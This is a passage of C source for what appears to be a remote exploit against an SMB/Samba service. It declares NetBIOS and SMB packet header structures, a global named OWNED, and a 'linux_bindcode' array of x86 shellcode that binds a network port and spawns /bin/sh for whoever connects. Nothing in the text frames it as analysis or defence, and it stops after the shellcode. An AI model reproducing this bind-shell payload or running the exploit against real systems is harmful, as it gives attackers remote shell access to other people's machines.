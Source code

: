     */

    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
    #include <netdb.h>
    #include <errno.h>
    #include <fcntl.h>
    #include <signal.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/select.h>
    #include <sys/socket.h>
    #include <sys/types.h>
    #include <sys/time.h>
    #include <sys/wait.h>
    #include <netinet/in.h>
    #include <arpa/inet.h>

    typedef struct {
            unsigned char type;
            unsigned char flags;
            unsigned short length;
    } NETBIOS_HEADER;

    typedef struct {
            unsigned char protocol[4];
            unsigned char command;
            unsigned short status;
            unsigned char reserved;
            unsigned char  flags;
            unsigned short flags2;
            unsigned char  pad[12];
            unsigned short tid;
            unsigned short pid;
            unsigned short uid;
            unsigned short mid;
    } SMB_HEADER;

    int OWNED = 0;
    pid_t childs[100];
    struct sockaddr_in addr1;
    struct sockaddr_in addr2;

    char linux_bindcode[] =
            "\x31\xc0\x31\xdb\x31\xc9\x51\xb1\x06\x51\xb1\x01\x51\xb1\x02\x51"
            "\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc1\x31\xc0\x31\xdb\x50\x50"
            "\x50\x66\x68\xb0\xef\xb3\x02\x66\x53\x89\xe2\xb3\x10\x53\xb3\x02"
            "\x52\x51\x89\xca\x89\xe1\xb0\x66\xcd\x80\x31\xdb\x39\xc3\x74\x05"
            "\x31\xc0\x40\xcd\x80\x31\xc0\x50\x52\x89\xe1\xb3\x04\xb0\x66\xcd"
            "\x80\x89\xd7\x31\xc0\x31\xdb\x31\xc9\xb3\x11\xb1\x01\xb0\x30\xcd"
            "\x80\x31\xc0\x31\xdb\x50\x50\x57\x89\xe1\xb3\x05\xb0\x66\xcd\x80"
            "\x89\xc6\x31\xc0\x31\xdb\xb0\x02\xcd\x80\x39\xc3\x75\x40\x31\xc0"
            "\x89\xfb\xb0\x06\xcd\x80\x31\xc0\x31\xc9\x89\xf3\xb0\x3f\xcd\x80"
            "\x31\xc0\x41\xb0\x3f\xcd\x80\x31\xc0\x41\xb0\x3f\xcd\x80\x31\xc0"
            "\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8b\x54\x24"
            "\x08\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x31\xc0"
            "\x89\xf3\xb0\x06\xcd\x80\xeb\x99";
